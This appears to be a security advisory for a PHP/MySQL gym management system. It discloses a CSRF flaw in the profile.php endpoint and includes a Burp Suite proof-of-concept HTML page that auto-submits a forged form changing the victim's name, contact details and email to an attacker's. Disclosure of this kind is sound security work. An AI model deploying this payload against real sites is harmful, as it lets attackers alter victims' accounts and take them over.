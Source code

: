# Gym Management System

A GYM management system built using PHP and MySQL.

## Auditor

Shoaib Alam - [LinkedIn Profile](https://www.linkedin.com/in/shoaib-alam-b53843203/)

## Description

### CSRF Vulnerability in Profile Update Section

A Cross-Site Request Forgery (CSRF) vulnerability has been identified in the Gym Management System. This issue is present in the profile update functionality of the User Panel.

The application currently lacks the implementation of Anti-CSRF tokens, resulting in vulnerability to Cross-Site Request Forgery (CSRF) attacks. This security weakness specifically impacts the `/profile.php` endpoint. An attacker can exploit this flaw to execute unauthorized modifications to sensitive user information, such as address, name, and phone number. This could potentially compromise the integrity of user accounts and lead to further security issues.

**Vulnerable Endpoint:** `/profile.php`

## Proof of Concept (PoC)

Below is a proof of concept demonstrating the CSRF vulnerability. This PoC was generated using Burp Suite Professional.

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://localhost/gym/profile.php" method="POST">
      <input type="hidden" name="fname" value="hacked" />
      <input type="hidden" name="lname" value="victim" />
      <input type="hidden" name="email" value="attacker&#64;gmail&#46;com" />
      <input type="hidden" name="mobile" value="9999999999" />
      <input type="hidden" name="state" value="hacked" />
      <input type="hidden" name="city" value="hacked" />
      <input type="hidden" name="address" value="hacked" />
      <input type="hidden" name="submit" value="Update" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

